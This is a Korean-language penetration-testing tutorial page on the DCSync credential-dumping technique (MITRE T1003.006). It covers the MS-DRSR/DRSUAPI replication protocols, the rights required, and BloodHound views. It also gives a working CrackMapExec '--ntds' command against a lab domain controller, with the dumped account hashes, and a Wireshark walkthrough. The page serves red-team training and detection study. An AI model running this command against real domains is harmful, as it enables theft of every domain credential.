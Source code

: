 ```yaml
---
description: 'ID: T1003.006 - OS Credential Dumping: DCSync'
---
```


# DCSync

## 개념

도메인 컨트롤러는 윈도우 액티브 디렉토리 도메인 내 사용자 인증 및 권한을 관리하는 중요한 서버다. 너무 중요하기 때문에 대부분의 윈도우 액티브 디렉토리 환경들은 안정성을 위해 도메인 컨트롤러 서버를 두 대 이상 운영하고 있다. 도메인 컨트롤러들은 각자의 액티브 디렉토리 오브젝트 관련 데이터들을 가지고 있고, 사용자 계정등의 경우에는 NTDS.dit 파일들을 각 서버의 파일시스템에 저장하고 있다. 도메인 컨트롤러들은 각자의 도메인 데이터들을 서로 싱크하고 맞추기 위해 MS-DRSR (Directory Replication Service Remote Protocol) 이라는 프로토콜을 사용한다. 그리고 MS-DRSR 프로토콜은 DRSUAPI (Directory Resplication Service) 라는 RPC 인터페이스를 통해 액티브 디렉토리에 적용됐다.

MS-DRSR과 DRSUAPI를 악용할 수 있는 방법은 2015년 8월 Mimikatz 툴에 "DCSync" 라는 기능이 추가되면서 세상에 본격적으로 알려지게 된다. 이 DCSync 라는 기능은 도메인 장악 권한 (도메인 관리자, 엔터프라이즈 관리자, 등)을 가진 상태에서 실행하게 되면 도메인 컨트롤러 머신 계정을 impersonate 한 뒤, DRSUAPI의 `GetNCChanges/DRSGetNCChanges` 함수를 이용해 도메인 내 모든 유저 계정의 계정 정보 (NTDS.dit 파일안의 유저 이름 + NT Hash) 를 받아온다.

Mimikatz가 선보였던 이 "DCSync" 라는 기능은 추후 다른 툴들에게도 적용되어, 오늘날 "DRSUAPI 혹은 MS-DRSR을 이용해 도메인 컨트롤러로부터 도메인 유저 계정 정보를 받아오는" 뜻을 갖게 되었다. 여기서 중요한 점은, DCSync는 공격 방법이나, 익스플로잇이 아니라는 것이다. DCSync는 마이크로소프트사가 적용한 DRSUAPI를 의도한대로 정상적으로 사용할 뿐인 기능이다.



## 사전 조건

내부망 모의해킹 시 DCSync를 사용하려면 현재 장악한 유저 계정이나 머신 계정이 다음과 같은 권한을 도메인 레벨에 가지고 있어야한다. 이 권한들은 모두 ExtendedRights에 해당하는 권한들이다.

1. `DS-Replication-Get-Changes`: Replicating Directory Changes
2. `DS-Replication-Get-Changes-All`: Replicating Directory Changes All
3. 혹은, `GenericAll`

모두 디렉토리의 변경점을 복제하고 싱크하기 위한 권한들이다. 위 권한들을 디폴트로 가지고 있는 액티브 디렉토리 오브젝트들은 다음과 같다.

1. Domain Admins@domain.com
2. Enterprise Admins@domain.com
3. Domain Controllers@domain.com
4. Administrators@domain.com

위 기본적인 오브젝트들이 아니라 `DS-Replication-Get-Changes/All` 권한을 가지고 있는 특정 오브젝트가 있다면, 블러드하운드에서는 아래와 같이 보일 것이다. 대부분 `AllExtendedRights`, `DCSync`, 혹은 `GenericAll` 권한들을 도메인 오브젝트에 가지고 있는 형태로 보인다.&#x20;

<figure><img src="../.gitbook/assets/dcsyncers.PNG" alt=""><figcaption></figcaption></figure>

## 실습

DCSync 권한을 가진 계정을 장악했다면, CrackMapExec, Mimikatz, Invoke-DCSync, SharpKatz 등의 다양한 툴을 이용해 DCSync 기능을 실행한다.

실제 내부망 모의해킹 시 도메인 장악을 끝내고 마지막으로 DCSync를 실행하며 도메인 내 수만명의 계정 정보가 쭉 올라가고 있는 걸 보는 것 만큼 기분 좋은 것이 없다.

```
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

## 실습 - 와이어샤크&#x20;

DCERPC 답게, 먼저 DCSync를 실행하면 Bind 과정을 거져 DRSUAPI 의 RPC 인터페이스들을 본격적으로 찾기 시작한다.&#x20;

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

그 뒤, `DsGetNCChanges` 로 도메인 유저 계정 정보를 받아온 뒤, `DsCrackNames` 로 받아온 데이터를 기본적인 문자열로 다시 포멧한다. 이 과정을 모든 도메인 유저 계정 정보를 받아올 때 까지 계속해서 반복한다.&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 레퍼런스&#x20;

* https://wiki.samba.org/index.php/DRSUAPI
* https://adsecurity.org/?p=1729
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)#ds-replication-get-changes-all
* https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-DRSR/%5bMS-DRSR%5d.pdf
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410



